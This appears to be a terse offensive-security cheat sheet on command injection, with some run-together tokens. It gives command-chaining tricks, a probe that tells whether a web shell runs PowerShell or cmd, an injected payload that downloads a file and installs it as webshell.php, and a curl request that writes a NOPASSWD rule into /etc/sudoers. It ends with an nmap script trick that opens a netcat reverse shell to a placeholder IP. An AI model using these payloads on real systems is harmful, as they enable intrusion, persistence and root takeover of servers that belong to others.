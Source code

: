 If a single command is working try URL encoding semi-colon
eg : git command works but others are restricted. Then try git;ipconfig (; or && for linux & for windows) (git version for win, git --version for lin)  
***Note** : Make sure to URL encode special chars.

### To determine webshell is powershell or cmd
```
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```
***Note*** : If parameters pass in body try for eg: linux param=";ls" (as url encoded) Always check forgot email password page for anything suspicious in response

##### CMD.php in website we can execute commands in Post Data ?
ip=127.0.0.1%0awgetIP%0amvindex.htmlwebshell.php%0a&send=Ping+It%21
```
curl http://127.0.0.1:8080/start_page.php?page=cmd.php --data "cmd=echo 'www-data ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers"
```

```
echo+'os.execute("nc+-e+/bin/sh+192.168.XX.XX+445")'+>+/var/tmp/shell.nse+&&+sudo+nmap+-- script+/var/tmp/shell.nse
```